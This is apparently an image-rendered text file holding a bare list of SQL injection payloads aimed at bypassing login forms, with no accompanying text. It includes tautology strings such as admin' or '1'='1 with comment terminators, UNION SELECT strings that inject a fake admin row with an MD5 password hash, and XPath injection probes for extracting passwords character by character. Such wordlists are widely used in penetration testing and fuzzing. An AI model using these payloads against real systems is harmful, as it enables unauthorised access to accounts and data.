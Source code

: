 ```
'#
'&'
'*'
'-'
'--
'/*
'^'
=
==
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
1?) and '1?='1-
admin" #
admin" --
admin"/*
admin' #
admin' --
admin'/*
admin' and substring(password/text(),1,1)='7
admin" or "1"="1
admin" or "1"="1"#
admin" or "1"="1"--
admin" or "1"="1"/*
admin" or 1=1
admin" or 1=1#
admin" or 1=1--
admin" or 1=1/*
admin") or "1"="1
admin") or "1"="1"#
admin") or "1"="1"--
admin") or "1"="1"/*
admin") or ("1"="1
admin") or ("1"="1"#
admin") or ("1"="1"--
admin") or ("1"="1"/*
admin' or '1'='1
admin' or '1'='1'#
admin' or '1'='1'--
admin' or '1'='1'/*
admin' or 1=1
admin' or 1=1#
admin' or 1=1--
admin' or 1=1/*
admin') or '1'='1
admin') or '1'='1'#
admin') or '1'='1'--
admin') or '1'='1'/*
admin') or ('1'='1
admin') or ('1'='1'#
admin') or ('1'='1'--
admin') or ('1'='1'/*
admin"or 1=1 or ""="
admin'or 1=1 or ''='
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
 and 1=1
 and 1=1-
' and 1='1
' and a='a
' and 'one'='one
' and 'one'='one-
' and substring(password/text(),1,1)='7
' group by password having 1=1--
```